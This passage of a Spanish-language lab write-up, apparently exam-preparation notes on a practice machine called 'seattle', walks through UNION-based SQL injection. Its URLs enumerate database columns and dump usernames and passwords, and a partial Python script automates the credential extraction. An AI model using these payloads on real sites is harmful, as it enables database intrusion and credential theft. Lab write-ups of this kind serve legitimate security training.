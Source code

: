         - tblMembers
        - tblProducts

8. Columnas

      En este caso, para sacar las columnas, la SELECT la realizaremos con LIMIT

      - http://192.168.1.14/prod-details.php?prod=-1+UNION+SELECT+NULL%2CNULL%2Ccolumn_name%2CNULL%2CNULL+FROM+information_schema.columns+WHERE+table_schema+%3D+%27seattle%27+AND+table_name+%3D+%27tlbMembers%27

      

9. Datos de user:password

      - http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2Cconcat_ws(%27+:+%27+%2Cid%2Clogin%2Cpassword)%2CNULL%2CNULL+FROM+photoblog.users

      ![16-id](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/seattle/evidencias/16-id.png)

      - http://192.168.1.14/prod-details.php?prod=-1+UNION+SELECT+NULL%2CNULL%2Ccolumn_name%2CNULL%2CNULL+FROM+information_schema.columns+WHERE+table_schema+%3D+%27seattle%27+AND+table_name+%3D%27tblMembers%27+LIMIT+1%2C1

        ![17-username](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/seattle/evidencias/17-username.png)

        - id
        - username
        - password
        - session
        - blog
        - admin
        - name


## Fase 4: Obtención de las credenciales usuario admin

1. Credenciales del admin: 
   
   - http://192.168.1.14/prod-details.php?prod=-1+UNION+SELECT+NULL%2CNULL%2Cconcat_ws%28%27+%3A+%27+%2Cusername%2Cpassword%29+NULL%2CNULL+FROM+tblMembers
   
   ![18-credenciales](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/seattle/evidencias/18-credenciales.png)
   
   
   
   ![18-final](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/seattle/evidencias/18-final.png)

## Fase 5: Automatización

```python
import requests
from sys import argv
from colorama import Fore, Back, Style

#Configuration
target="192.168.1.14/prod-details.php"
url = "http://" + target
payload = {'prod':"-1 UNION SELECT NULL,NULL,concat_ws(' : ' ,username,password), NULL,NULL FROM tblMembers"}
cookies=dict(level="1")
parameters='y'
method='GET'

#functions


def requests_get_params(url, payload):
    r = requests.get(url, params=payload, cookies=cookies, verify=False)
```